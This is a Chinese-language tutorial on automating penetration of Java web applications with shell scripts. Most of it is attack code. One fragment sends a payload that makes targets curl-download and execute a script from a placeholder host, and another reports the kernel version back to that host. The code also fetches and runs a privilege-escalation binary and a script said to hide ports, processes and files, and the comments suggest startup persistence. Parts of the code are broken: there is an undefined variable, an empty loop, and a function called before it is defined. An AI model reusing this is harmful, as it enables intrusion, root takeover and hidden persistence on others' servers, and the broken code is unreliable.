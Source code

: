 ## 分析shell脚本，自动化渗透
如果不会shell编程，这里需要自己自学shell编程。

### 0x00 理解自动化
自动化渗透，也就是流水线般的去做渗透测试。
在个人看来渗透主要分三步骤，什么样的需求①，达到什么样的目的②，最终结果③，渗透的主要三个步骤。
以目前的技术要达到完全的自动化，还无法做到，只能做到针对性强，非常有局限的自动化。
但是可以通过需求、目的、结果来进行建模，就类似搭积木一样，可以应对大部分情况。

### 0x01 需求
分析漏洞需求，在满足什么样的条件触发exp。比如Java反序列化漏洞，明确的知道哪些应用程序使用了该
技术，通过特征过滤包含这些应用程序特征的程序。
例如，我需要过滤*.do,*.action,*.jsp后缀的名字来确认是否使用java编写的应用程序
```shell
#!/bin/sh
#过滤所有URL,对java应用程序进行渗透测试
URL=`cat 1.log | grep -Eo "<a[^>]+?href=[\"']?([^\"']+)[\"']?[^>]*>([^<]+)</a>"`
#过滤do或者jsp或者action的query请求。
JSP=`echo $URL | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+([^\.jsp]+)\.jsp"`
DO=`echo $P | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+\.do([\?]?[^\"']+)?"`

ANYLIST=()
LIST=$JSP$DO
foreach(){
	for url in $LIST;do
		#执行目标
	done
	echo 
	return 0;
}

```


### 0x02 目的
满足需求后执行我们的目的，也就是漏洞利用，但是在利用之前，要确定，如果成功，需要做什么事情，
那么，一般黑帽做到这步的情况，就是提权留后门，由于我们只做测试检测，所以，在这里，就只要求服务器向
我们的中间服务器发送一个带kernel参数的POST，来确定目标系统的版本。
```shell
#!/bin/sh
#执行目标
exp $url
#exp的实现，根据java的各种漏洞，如java反序列化，struts2等漏洞（如果是此类型漏洞可能还需要进一步
#确定，如果无法确认，放入任意漏洞检测队列）。
#构造请求包，执行系统调用，大致实现是
while read line
do 
    data="$data${line}"
done < data.dat
exp(){
	#构造一个请求包，向服务器发送请求。目标服务器下载中间服务器脚本程序执行。
	#data的数据类似data=curl -k -L http://www.example.com/curl-exp.sh -o curl-exp.sh && 
	#chmod +x curl-exp.sh && /bin/sh curl-exp.sh 
	curl -k -L $1 -F "data=$data"
}
#实现一个隐藏端口，隐藏进程，隐藏文件的`linux mod`,
#由于这里做检测，所以只实现一个http请求。
#daemon-exp.sh
daemon_exp(){
	KK=`uname -a`
	curl -k -L -F "kernel="$KK http://www.example.com/push.php 
}
#编写`shell init`放到启动项里根据不同情况触发，如：`/etc/init/[rc0.d,rc1.d,rc2.d,rc3.d,rc4.d]`
#把daemon-exp.sh放入rc3.d开机启动里面；

#运行程序
#curl_exp.sh

CURL=`which curl`
if [ "$CURL" = "" ];then
	exit 1;
fi
if [ $? != 0 ];then
	exit 1;
fi

#此处下载执行隐藏端口，隐藏进程，隐藏文件的命令脚本
curl -k -L http://www.example.com/daemon-exp.sh -o daemon-exp.sh #shell-init script
#su
curl -k -L http://www.example.com/su.out -o su.out #执行提权，用最高权限执行shell脚本
chmod +x $(pwd)/su.out
./su.out daemon-exp.sh
exit 0;


```

### 0x03 结果
验证中间服务器收到的请求，确定目标机存在漏洞。
查看已经成功运行我们的exp脚本服务器。

PS：
①需求，这里指满足条件。
②目的，在满足需求的情况下，是否要拿到root权限，留下后门等。
③结果，完成所有目的操作，无任何异常或者错误。

